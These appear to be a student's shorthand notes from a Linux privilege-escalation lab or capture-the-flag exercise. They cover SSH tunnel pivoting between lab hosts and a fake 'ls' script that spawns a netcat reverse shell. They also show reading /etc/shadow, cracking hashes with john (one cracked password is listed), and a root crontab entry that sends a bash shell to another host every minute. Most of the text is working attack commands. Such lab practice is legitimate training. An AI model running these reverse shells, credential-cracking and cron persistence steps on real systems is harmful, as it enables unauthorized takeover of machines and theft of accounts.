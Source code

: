 student@lin-ops:~$ ssh -MS /tmp/gray student@10.50.36.239
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1470:192.168.28.105:2222
student@lin-ops:~$ ssh -MS /tmp/orange comrade@0.0.0.0 -p 1470
student@lin-ops:~$ ssh -S /tmp/orange orange -O forward -L 1473:192.168.28.27:22
student@lin-ops:~$ ssh comrade@localhost -p 1473
comrade@lin2
student@lin-ops:~$ ssh -S /tmp/orange orange -O forward -L 1474:192.168.28.12:22
student@lin-ops:~$ ssh comrade@localhost -p 1474
comrade@lin1



On COMRADE@LIN2
make a script called ls
#!/bin/bash
nc 127.0.0.1 5555 -e /bin/bash
nc -lvp 5555
now being run as billybob
ls -la /home
see flag and a word list
cat /etc/shadow
john --wordlist=<wordlist file> <file w hashes, delete users w/ out hashes>
ghjcnbnenrf      (zeus)
log in as zeus 
find flag in root directory
vim /etc/crontab
* *     * * *   root    nc 192.168.28.135 33403 -e /bin/bash
runs every minute
check tmp directory for flag
